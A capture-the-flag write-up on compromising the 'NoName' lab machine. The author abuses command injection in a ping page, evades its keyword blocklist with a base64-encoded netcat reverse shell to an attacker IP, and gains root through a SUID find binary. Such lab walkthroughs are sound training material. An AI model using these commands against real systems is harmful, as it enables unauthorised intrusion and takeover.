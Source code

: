 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


This machine crashes alot so frustrating Machine →

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NoName/Untitled.png)

```bash
IP : 10.0.2.57
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.57     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 15:54 IST
Nmap scan report for 10.0.2.57
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:7E:D4:B7 (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%201.png)

Now Entering any value gives no results so lets see into the directory listing files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%202.png)

lets see the admin directory →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%203.png)

I think paraphrase are used in as password from extracting data from image or file so lets see what I can get from this →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%204.png)

as I got a file named as `superadmin.php` →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%205.png)

Now I see it is pinging the input IP address so lets bypass it and make it into a command Injection →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%206.png)

Now I can execute certain commands so lets see the source code of this superadmin.php file so that  we can debugg this page →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%207.png)

After seeing this code I have to bypass (";","&&","/","bin","&"," &&","ls","nc","dir","pwd") these attributes to gain an access →

So lets use base64 as encoding and decoding system and then executing it .

Lets try →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ echo "nc.traditional -e /bin/bash 10.0.2.15 4444" | base64
bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDEwLjAuMi4xNSA0NDQ0Cg==
```

![Untitled](/Vulnhub-Files/img/NoName/Untitled%208.png)

In response to that I got a local privilege escalation ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%209.png)

Lets enumerate further →

```bash
www-data@haclabs:/home$ ls
ls
haclabs  yash
www-data@haclabs:/home$ cd yash
cd yash
www-data@haclabs:/home/yash$ ls -al
ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Feb 15  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash   13 Feb 15  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
www-data@haclabs:/home/yash$ cat flag1.txt
cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
www-data@haclabs:/home/yash$
```

Now I also got flag2.txt into haclabs directory →

```bash
www-data@haclabs:/home/haclabs$ cat flag2.txt	
cat flag2.txt
I am flag2 

	   ---------------               ----------------
                         
                     
                               --------
www-data@haclabs:/home/haclabs$
```

Now lets see the SUIDs files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%2010.png)

I got a command of `find` that have a permission to get use to root lets try →

```bash
www-data@haclabs:/var/www/html$ find . -exec /bin/bash -p \; -quit 
bash-4.4# whoami
root
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cd /root
bash-4.4# ls -al
total 40
drwx------  6 root root 4096 Jun 28 12:22 .
drwxr-xr-x 24 root root 4096 Mar 14  2020 ..
-rw-------  1 root root    0 Jul 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jan 30  2020 .cache
drwx------  5 root root 4096 Jan 30  2020 .config
drwx------  3 root root 4096 Jan 27  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jan 27  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   32 Jul 14  2020 flag3.txt
-rw-r--r--  1 root root   33 Jun 28 12:22 proof.txt
bash-4.4# cat flag3.txt 
Your flag is in another file...
bash-4.4# cat proof.txt 
718d227b9f5e9b38a754aa386ee60f3d
bash-4.4#
```

Now also lets see the local.txt file in yash directory →

```bash
bash-4.4# cd /home
bash-4.4# ls
haclabs  yash
bash-4.4# cd yash
bash-4.4# ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jun 28 12:22 local.txt
bash-4.4# cat local.txt 
7776aa0d53576f01d200900eded356bd
bash-4.4#
```

---